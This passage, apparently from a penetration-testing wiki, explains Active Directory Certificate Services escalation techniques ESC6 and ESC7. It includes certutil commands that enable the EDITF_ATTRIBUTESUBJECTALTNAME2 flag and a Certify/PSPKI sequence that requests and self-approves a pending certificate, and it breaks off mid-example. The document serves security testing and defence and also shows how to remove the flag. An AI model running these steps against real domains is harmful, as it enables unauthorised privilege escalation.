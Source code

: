 To alter these settings, assuming one possesses **domain administrative** rights or equivalent, the following command can be executed from any workstation:

```bash
certutil -config "CA_HOST\CA_NAME" -setreg policy\EditFlags +EDITF_ATTRIBUTESUBJECTALTNAME2
```

To disable this configuration in your environment, the flag can be removed with:

```bash
certutil -config "CA_HOST\CA_NAME" -setreg policy\EditFlags -EDITF_ATTRIBUTESUBJECTALTNAME2
```

{% hint style="warning" %}
Post the May 2022 security updates, newly issued **certificates** will contain a **security extension** that incorporates the **requester's `objectSid` property**. For ESC1, this SID is derived from the specified SAN. However, for **ESC6**, the SID mirrors the **requester's `objectSid`**, not the SAN.\
To exploit ESC6, it is essential for the system to be susceptible to ESC10 (Weak Certificate Mappings), which prioritizes the **SAN over the new security extension**.
{% endhint %}

## Vulnerable Certificate Authority Access Control - ESC7

### Attack 1

#### Explanation

Access control for a certificate authority is maintained through a set of permissions that govern CA actions. These permissions can be viewed by accessing `certsrv.msc`, right-clicking a CA, selecting properties, and then navigating to the Security tab. Additionally, permissions can be enumerated using the PSPKI module with commands such as:

```bash
Get-CertificationAuthority -ComputerName dc.domain.local | Get-CertificationAuthorityAcl | select -expand Access
```

This provides insights into the primary rights, namely **`ManageCA`** and **`ManageCertificates`**, correlating to the roles of “CA administrator” and “Certificate Manager” respectively.

#### Abuse

Having **`ManageCA`** rights on a certificate authority enables the principal to manipulate settings remotely using PSPKI. This includes toggling the **`EDITF_ATTRIBUTESUBJECTALTNAME2`** flag to permit SAN specification in any template, a critical aspect of domain escalation.

Simplification of this process is achievable through the use of PSPKI’s **Enable-PolicyModuleFlag** cmdlet, allowing modifications without direct GUI interaction.

Possession of **`ManageCertificates`** rights facilitates the approval of pending requests, effectively circumventing the "CA certificate manager approval" safeguard.

A combination of **Certify** and **PSPKI** modules can be utilized to request, approve, and download a certificate:

```powershell
# Request a certificate that will require an approval
Certify.exe request /ca:dc.domain.local\theshire-DC-CA /template:ApprovalNeeded
[...]
[*] CA Response      : The certificate is still pending.
[*] Request ID       : 336
[...]

# Use PSPKI module to approve the request
Import-Module PSPKI
Get-CertificationAuthority -ComputerName dc.domain.local | Get-PendingRequest -RequestID 336 | Approve-CertificateRequest

# Download the certificate
```
